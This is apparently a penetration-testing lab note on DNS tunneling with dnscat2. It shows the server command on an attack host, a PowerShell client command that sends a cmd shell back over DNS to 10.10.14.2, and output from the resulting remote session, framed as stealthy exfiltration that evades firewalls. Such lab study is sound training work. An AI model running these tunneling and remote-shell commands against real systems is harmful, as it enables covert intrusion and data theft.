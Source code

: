 ```yaml
---
description: A tunneling tool that uses DNS protocol to send data between two hosts
---
```


# DNS Tunneling with Dnscat2

Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic.

**Starting the dnscat2 server**

```shell-session
# Beware of the spaces between commas cuz I tried with spaces and it didn't work
sudo ruby dnscat2.rb --dns host=10.10.14.2,port=53,domain=inlanefreight.local --no-cache
```

After running the command in the server (Attack host) we will receive a secret key, the key has to be passed into the client (windows host) while running client side dnscat2 ([dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell))

**Importing dnscat2.ps1**

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

**Send back a CMD shell session**

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.2 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

* \-PreSharedSecret -> is the secret key mentioned eirlier.

**Listing dnscat2 Options**

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

**Interacting with the Established Session**

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```











